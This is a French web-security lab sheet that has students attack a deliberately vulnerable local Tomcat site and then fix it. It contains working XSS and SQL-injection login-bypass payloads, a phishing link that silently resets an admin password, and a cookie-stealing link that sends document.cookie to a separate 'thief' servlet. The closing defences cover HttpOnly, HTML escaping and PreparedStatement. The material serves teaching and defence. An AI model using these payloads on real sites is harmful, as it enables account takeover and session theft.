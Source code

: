 
# Sécurité des sites web

**Objectifs :**
- Comprendre les principes de base et savoir se protéger contre l'injection XSS et l'injection SQL

**Avertissement**  
TESTER LA VULNÉRABILITÉ D'UN SITE QUI N'EST PAS LE VÔTRE EST ILLEGAL  
NE RÉALISEZ CES EXERCICES QUE SUR VOS PROPRES SITES

## Préambule
Afin de pouvoir effectuer des tests de "piratage" interessants, il est nécessaire d'avoir une application qui nécessite une authentification
et une gestion de rôles, qui permet de saisir des données et d'afficher d'une manière ou d'une autre les données saisies. C'est le cas à l'issue de l'exercice précédant.

### Déploiement
1. Tomcat arrêté, récupérer et décompresser le fichier `tp309.zip`
1. Quelle commande Unix permet de savoir dans quelles pages sont réalisées les connexions ?
1. Quelle commande Unix permet de remplacer le nom de l'utilisateur par le votre ?
1. Sans éditer aucun fichier, modifiez l'ensemble des pages de manière à bien régler le driver, l'url, le login, le mot de passe nécessaires au bon fonctionnement
de ce site.
1. N'oubliez pas de créer la table et les données nécessaires (voir le `README`associé) et compiler les servlets !

## Injection XSS
L'injection XSS (HTML ou Javascript) peut se faire partout où l'utilisateur saisit des données. Cela perturbera toute page qui
affichera le contenu de cette saisie, par exemple quand l'utilisateur modifie ses coordonnées. En tant que jean, saisir par exemple dans le champs adresse tour à tour les données suivantes.

Vérifiez dans chacun de ces cas, les conséquences sur la page d’affichage des données d’un administrateur : c'est jean qui saisit, c'est paul qui subit !
1. `<h1>HACK</h1>`
1. `<font size=7 color=red>HACK</font>`
1. `<script>alert("HACK")</script>`
1. `<script>window.open("Select")</script>`
Firefox limite depuis la version 57.0 le nombre de popups. Lors de l’appel, cliquez sur le bouton preferences pour autoriser les popups.
1. `<script>location="http://www.libe.fr"</script>`
Dans ce dernier cas, vous constatez que plus aucun admin ne verra sa page d’affichage !

## Injection SQL
L’injection SQL peut se faire dans toute donnée qui sera manipulée par une instruction SQL, ce qui est le cas de tout formulaire d’authentification.
1. Saisir dans les deux champs login et mdp `' OR '1'='1`
Vous constatez que l’on se connecte au site avec le login du 1er utilisateur de la base, qui est en général l’administrateur !!
1. Saisir dans le champs login `' union select 'x','x','x','x','admin','x' --` (des x pour chaque colonne qui n’est pas un rôle, le reste en commentaire)
Vous constatez que l’on “force” la connexion à un role spécifique (ici admin !!).
1. Saisir dans le champs login un login correct, mais sous la forme `unbonlogin' or '1'='1` , puis n'importe quoi dans le champs mot de passe.  
Vous constatez que l'on se connecte sans le mot de passe en tant que l'utilisateur choisi.
1. Créez une table `bidon(libelle text)` avec quelques lignes dedans. Trouvez l'injection à effectuer au login pour effacer
complètement cette table par injection SQL
1. Vous êtes un nouvel utilisateur. Comment faire pour être directement inscrit à la création avec un compte admin inscrit
physiquement dans la base ?
1. Vous avez un compte sur ce site en tant que simple utilisateur. Comment modifier votre rôle pour passer de util à admin
dans la base.

## Social engineering
L'ingénierie sociale est une forme d'escroquerie utilisée en informatique pour obtenir d'autrui des informations clefs. Cette
pratique exploite les failles humaines et sociales, la crédulité des personnes possédant ce que l'on cherche à obtenir.

* L'administrateur est connecté
* Un pirate lui envoie un email en html en apparence anodin. Pour tester, envoyez vous un email contenant le texte :  
  ```html
  Peux tu jeter un oeil sur ma page perso
  <p>
  <a href=http://localhost:8080/tp309/servlet/Maj2?login=paul&mdp=toto&nom=&prenom=&adresse=>
  http://127.12.56.33/mapageperso.html</a>
  <p>
  Merci
  ```
* En tant qu'administateur paul, vous ne vous méfiez pas, et en recevant le mail, vous cliquez naïvement dessus.
* Ce faisant, paul vient de changer son mot de passe en toto, mot de passe que vous lui avez indiqué dans la partie cachée du lien.
* Le pirate peut maintenant se logger en paul/toto

## Le vol de sessions
Dans cet exercice nous allons voir comment se logguer sur un site en utilisant la session d'un autre utilisateur, sans saisir aucun
login ni mot de passe ! C'est ce que l'on appelle un vol de session.
1. Nous utiliserons Chrome pour l'administrateur (ici paul/paul) et Firefox/Iceweasel pour le "voleur" (ici jean/jean)
qui est simple utilisateur. Lancez les deux et recadrez ces fenetres pour qu'elles soient côte à côte : Chromium à gauche,
Firefox à droite.
1. Les navigateurs récents possèdent tous une "console web". Cet outil permet d'éditer, débugguer, tester CSS, HTML, et JavaScript en direct sur n'importe quelle page. Sur Firefox allez dans "Outils/Developpement web" puis "console web" onglet "storage"
1. Tout est maintenant prêt pour la démonstration
1. Un voleur (navigateur de droite), jean, non administrateur, injecte dans ses coordonnées (via "modifier vos infos") le code  
    ```javascript
    <script>alert(document.cookie)</script>
    ```
1. Paul (navigateur de gauche), administrateur, se connecte légalement avec son login/mdp sur le navigateur de gauche ... mais
il laisse sa session ouverte en allant boire un café :-(
1. Jean, le voleur en profite pour utiliser son navigateur et afficher la liste des coordonnées. L'affichage de cette page lui donne le `JSESSIONID`. Faites un copier du numéro.
1. Jean, le voleur retourne sur son navigateur Firefox qu'il lance sur la page de Menu
1. Avec la console Web  (Outils - Dev Web - Console Web), il va dans l'onglet `Stockage` et modifie l'identifiant de session en mettant celui volé précédemment.
1. Après un reload de cette page, il est maintenant connecté comme administrateur !


## Industrialiser les vols de sessions
Certains pirates injectent dans les pages WEB des forums des liens permettant de voler vos cookies et les ranger dans leurs bases
de données
1. Ecrire dans vide (pas dans `tp309` pour symboliser un autre serveur; celui du voleur) une servlet `Voler.java` qui récupere
un parametre `p` et le range dans une table `numsessions(p text)`.
1. Injecter dans le site (page "Modifiez vos infos") le code suivant dans le champs adresse 2 :  
    ```html
    <a href="#" onclick="window.location=''http://mamachine:8080/vide/servlet-Voler?p=''+
    escape(document.cookie)">Cliquer ici!</a>
    ```
1. Demandez maintenant à vos voisins d'afficher cette page et de cliquer sur le lien
1. A chaque click d'un utilisateur, son numéro de session vient remplir votre table de sessions volées. Il ne vous reste plus qu'à laisser ce piège toute la nuit, demain matin, votre BDD sera pleine de cookies tous frais ;-)


Remarque : Les cookies sont accessibles coté client via les langages de Script comme Javascript. Le tag `HttpOnly` empêche d’accéder aux cookies par Javascript. Pour se protéger il est préférable soit d'utiliser la méthode `setHttpOnly`à la création du cookie, soit de paramétrer son serveur avec des `HttpOnly` cookies.



## Mise en sécurité "élémentaire" du site
1. Afin d'éviter l'injection XSS une technique basique et inefficace consiste à faire des replaceAll sur les chaines de caractères pour supprimer les caractères spéciaux `<>'()`. Testez cette approche sur le paramètre adresse.
1. Testez la saisie de Villeneuve d'Ascq dans l'adresse
1. La classe `StringEscapeUtils` des API `Commons-text` et `Commons-lang` de chez [Apache](http://commons.Apache.org) est bien plus efficace puisqu'elle "encode" les caractères spéciaux ainsi que ceux supérieurs au code ascii 127.
  * Ecrire un programme Java simple qui saisit une chaine et affiche sa transformation avec la méthode `translate` de
la classe `StringEscapeUtils`  
    ```java
    CharSequenceTranslator cst = StringEscapeUtils.ESCAPE_HTML4;  
    String translated=cst.translate(input);
    ```
  * Testez avec différentes chaines contenant des caractères spéciaux(genre `<h1>hello</h1>`)
  * Modifiez votre site en conséquence.
  * Testez la saisie de Villeneuve d'Ascq dans l'adresse
1. Afin d'évitez l'injection SQL, remplacez les Statement utilisés à partir de données saisies par des `PreparedStatement` avec setters
1. Restestez toutes les injections vues lors des précédents exercices et testez que toute forme de piratage est désormais impossible.

